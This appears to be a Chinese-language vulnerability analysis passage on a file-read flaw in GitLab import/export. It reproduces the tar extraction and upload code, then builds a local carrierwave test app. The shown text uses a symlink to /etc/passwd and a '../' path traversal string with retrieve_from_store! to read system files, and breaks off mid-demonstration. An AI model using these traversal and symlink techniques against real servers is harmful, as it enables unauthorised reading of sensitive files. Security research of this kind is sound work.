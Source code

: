 文件解压采用popen执行命令方式：
*lib/gitlab/import_export/command_line_util.rb*
```
def untar_with_options(archive:, dir:, options:)
    execute_cmd(%W(tar -#{options} #{archive} -C #{dir}))
    execute_cmd(%W(chmod -R #{UNTAR_MASK} #{dir}))
end
```

解压后对文件进行移动或者上传:
*app/services/upload_service.rb*
```
def execute
    return unless file && file.size <= max_attachment_size

    uploader = uploader_class.new(model, nil, **uploader_context)
    uploader.store!(file)

    uploader
end
```
其中store!函数是carrierwave库的内置函数，用于移动文件。

### Analysis

对carrierwave库进行demo测试，发现carrierwave的store!方法能够直接读取symlink指向的文件内容并且进行存储,对carrierwave进行文件操作测试：

1. 测试路径穿越
2. 测试symlink读取和写入

参考：[Uploading files in Rails 5](https://www.youtube.com/watch?v=4VkKmQWJoBI)

1. create app: `rails new Carrierwave`
2. add carrierwave to gemfile: `gem 'carrierwave', '~> 3.0'`
3. `bundle install`
4. create uploader:  `rails generate uploader File`
5. create scaffold: `rails generate scaffold Test image:string`
6. add `mount_uploader :image, FileUploader` to test.rb model
7. migrate db: `bin/rails db:migrate`
8. change add image view: app/view/test/_form
    a. `<%= form.file_field :image %>`
9. start server: `bin/rails s -b 0.0.0.0`
10. open: localhost:3000/tests to upload image
11. `bin/rails console` to debug:(prepare file: `ln -s /etc/passwd /home/kali/test`)
    - initialize
        ```
        u = Test.new
        u.id = 1
        b = File.open("/home/kali/test")
        u.image.store!(b)
        check file content: /home/kali/rubyprojects/Carrierwave/public/uploads/test/image/1/test
        ```
    - Uploader:: retrieve_from_store!方法：存在目录穿越问题
        ```
        u.image.retrieve_from_store!('../../../../../../../../../../../etc/passwd')
        u.image.file
        #<CarrierWave::SanitizedFile:0x00007f7daa7cfe50
            @content=nil,
            @content_type=nil,
            @declared_content_type=nil,
            @file="/etc/passwd",
            @original_filename=nil>
        ```
    - Uploader:: retrieve_from_store!方法配合copy_to方法：通过目录穿越读取任意文件
        ```
        u.image.retrieve_from_store!('../../../../../../../../../../../etc/passwd')